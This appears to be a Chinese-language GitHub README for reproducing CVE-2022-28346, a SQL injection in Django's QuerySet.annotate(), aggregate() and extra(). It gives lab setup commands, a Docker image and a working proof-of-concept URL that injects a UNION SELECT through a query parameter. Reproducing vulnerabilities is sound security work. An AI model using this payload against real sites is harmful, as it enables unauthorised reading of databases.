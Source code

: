 ### CVE-2022-28346
Django QuerySet.annotate(), aggregate(), extra() SQL 注入

### 环境初始化
```
1.python manage.py makemigrations
2.python manage.py migrate
3.访问http://x.x.x.x:8000/ 插入初始化数据
```

### 漏洞复现

```
访问http://x.x.x.x:8000/demo
POC: http://x.x.x.x:8000/demo?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```

![image-20220426224053969](./image-20220426224053969.png)

### Docker

```
docker pull s0cke3t/cve-2022-28346:latest
```

